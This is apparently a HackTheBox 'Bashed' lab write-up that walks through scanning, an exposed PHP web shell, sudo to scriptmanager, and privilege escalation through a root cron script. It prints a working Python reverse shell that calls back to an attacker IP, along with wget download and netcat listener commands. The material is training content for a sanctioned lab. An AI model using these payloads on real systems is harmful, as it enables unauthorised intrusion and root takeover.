

[hackthebox - easy] bashed
--------------------------

The first step I take is scanning the provided IP to see what's happening in the machine:

```
┌──(j㉿jcomp)-[~/Desktop/htb/bashed/w]
└─$ nmap -sC -sV -oN nmap_info.txt 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-02 22:53 -03
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT      STATE    SERVICE       VERSION
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
8100/tcp  filtered xprint-server
52822/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.76 seconds
```

After getting this information, the next thing for me to do is check up on what's being served on port 80. Upon cheching http://10.10.10.68/ with my browser, this is what I find:


So it is about a web shell that can be uploaded to a website AND it was tested in the current website... it would be very convenient for me if this file was still accessible, right? I then click o the pink arrow to see what else I can get from this, and I get sent to http://10.10.10.68/single.html that looks like:



And in this little slide within the page the following image is shown:


Which indicates the php file is in http://10.10.10.68/uploads/phpbash.php but the page returns a 404. while http://10.10.10.68/uploads/ returns a blank page. Nevertheless I still run gobuster to see what other directories I can find:

```
┌──(j㉿jcomp)-[~/Desktop/htb/bashed/w]
└─$ gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --exclude-length 9265
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] Exclude Length:          9265
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/02 23:53:56 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
Progress: 9833 / 87665 (11.22%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/01/02 23:58:15 Finished
===============================================================
```

The one that stands out to me is the /dev directory, so I try to reach http://10.10.10.68/dev/ and this is what I find:

[bashed 4](./images/bashed-4.png)

I click on "phpbash.php" and get redirected to http://10.10.10.68/dev/phpbash.php, which is a php shell through browser. The first commands I type in are:

```
www-data@bashed:/var/www/html/dev# whoami

www-data
```

So it seems I managed to get a shell as www-data. I then snoop a little bit to see if I can get the user flag:

```
www-data@bashed:/var/www/html/dev# cd /home

www-data@bashed:/home# ls -la

total 16
drwxr-xr-x 4 root root 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
drwxr-xr-x 4 arrexel arrexel 4096 Jun 2 2022 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 scriptmanager

www-data@bashed:/home# cd scriptmanager

www-data@bashed:/home/scriptmanager# ls -la

total 28
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 scriptmanager scriptmanager 2 Dec 4 2017 .bash_history
-rw-r--r-- 1 scriptmanager scriptmanager 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec 4 2017 .bashrc
drwxr-xr-x 2 scriptmanager scriptmanager 4096 Dec 4 2017 .nano
-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec 4 2017 .profile

www-data@bashed:/home/scriptmanager# cd ../arrexel

www-data@bashed:/home/arrexel# ls -la

total 32
drwxr-xr-x 4 arrexel arrexel 4096 Jun 2 2022 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
lrwxrwxrwx 1 root root 9 Jun 2 2022 .bash_history -> /dev/null
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Jan 2 17:49 user.txt

www-data@bashed:/home/arrexel# cat user.txt

db0b672f625f....flag
```

After getting the user flag I try to see what kind of permissions user www-data has:

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

That means I can run any command as scriptmanager, which might be a path to privilege escalation. To run a command as scriptmanager from a www-data bash, I have to use the following "form": sudo -H -u scriptmanager bash -c "\[COMMAND\]", just like so:

```
www-data@bashed:/home/arrexel# sudo -H -u scriptmanager bash -c "whoami"

scriptmanager
```

I try some known privilege escalation techniches, but I only find interesting stuff when I cd into / and realize there is a different directory inside of it:

```
www-data@bashed:/home/arrexel# cd /

www-data@bashed:/# ls -la

total 92
drwxr-xr-x 23 root root 4096 Jun 2 2022 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw------- 1 root root 174 Jun 14 2022 .bash_history
drwxr-xr-x 2 root root 4096 Jun 2 2022 bin
drwxr-xr-x 3 root root 4096 Jun 2 2022 boot
drwxr-xr-x 19 root root 4140 Jan 2 17:49 dev
drwxr-xr-x 89 root root 4096 Jun 2 2022 etc
drwxr-xr-x 4 root root 4096 Dec 4 2017 home
lrwxrwxrwx 1 root root 32 Dec 4 2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 2017 lib
drwxr-xr-x 2 root root 4096 Jun 2 2022 lib64
drwx------ 2 root root 16384 Dec 4 2017 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 2017 media
drwxr-xr-x 2 root root 4096 Jun 2 2022 mnt
drwxr-xr-x 2 root root 4096 Dec 4 2017 opt
dr-xr-xr-x 170 root root 0 Jan 2 17:49 proc
drwx------ 3 root root 4096 Jun 2 2022 root
drwxr-xr-x 18 root root 500 Jan 2 17:49 run
drwxr-xr-x 2 root root 4096 Dec 4 2017 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Jan 2 17:49 sys
drwxrwxrwt 10 root root 4096 Jan 2 19:34 tmp
drwxr-xr-x 10 root root 4096 Dec 4 2017 usr
drwxr-xr-x 12 root root 4096 Jun 2 2022 var
lrwxrwxrwx 1 root root 29 Dec 4 2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

There is the "scripts" directory in / owned by scritpmanager. When I check its files as scriptmanager, I get the following:

```
www-data@bashed:/# sudo -H -u scriptmanager bash -c "ls -la scripts"

total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jan 2 19:37 test.txt

www-data@bashed:/# timedatectl

Local time: Mon 2023-01-02 19:38:02 PST
Universal time: Tue 2023-01-03 03:38:02 UTC
RTC time: Tue 2023-01-03 03:38:03
Time zone: America/Los_Angeles (PST, -0800)
Network time on: yes
NTP synchronized: no
RTC in local TZ: no
```

There is a file that's been recently changed (I had to check it using timedatectl since I'm in a different time zone) and that is owned by root, which might mean there is a chanche a cron job is running. The file reads:

```
testing 123!
```

I check the python file owned by scriptmanager and it reads:

```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

So this file that is owned by root was recently created by a script that is owned by scriptmanager, which means root (through a cron job) executed it. To make sure of that, I move the "test.txt" file into to "bk.txt". I wait a bit and then check out the directory again:

```
www-data@bashed:/# sudo -H -u scriptmanager bash -c "mv scripts/test.txt scripts/bk.txt"

www-data@bashed:/# sudo -H -u scriptmanager bash -c "ls -la scripts"

total 20
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jan 2 19:45 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw-r--r-- 1 root root 12 Jan 2 19:44 bk.txt
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jan 2 19:45 test.txt
```

The file was created again, which confirms my theory. So what I do next is create a python reverse shell in my local machine that reads:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ cat revshell.py
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.12",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")
```

So I serve it on my local machine through simpleHTTPserver:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ python3 -m http.server 9000 --bind 10.10.14.12
Serving HTTP on 10.10.14.12 port 9000 (http://10.10.14.12:9000/) ...
```

And download it on the target machine at /home/scriptmanager:

```
www-data@bashed:/home/scriptmanager# sudo -H -u scriptmanager bash -c "wget http://10.10.14.12:9000/revshell.py"

--2023-01-02 19:57:07-- http://10.10.14.12:9000/revshell.py
Connecting to 10.10.14.12:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 197 [text/x-python]
Saving to: 'revshell.py'

0K 100% 23.6M=0s

2023-01-02 19:57:08 (23.6 MB/s) - 'revshell.py' saved [197/197]
```

After that I start listening on my machine with netcat:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ nc -s 10.10.14.12 -lvp 4444               
Listening on jcomp 4444
```

And then, on the target machine I create a backup of /scripts/test.py and copy the "revshell.py" that I just downloaded and rename it to "test.py":

```
www-data@bashed:/home/scriptmanager# sudo -H -u scriptmanager bash -c "mv /scripts/test.py /scripts/bk.py"

www-data@bashed:/home/scriptmanager# sudo -H -u scriptmanager bash -c "cp revshell.py /scripts/test.py"
```

After waiting a bit, I get a response on my local machine:

```
┌──(j㉿jcomp)-[~/Desktop/tools]
└─$ nc -s 10.10.14.12 -lvp 4444               
Listening on jcomp 4444
Connection received on 10.10.10.68 60522
# whoami
whoami
root

```
\# python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
root@bashed:/scripts# cd /root
cd /root
root@bashed:~# ls -la
ls -la
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Jan  2 17:49 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt
cat root.txt
a0ea0563c...flag
```

And so I get the root flag
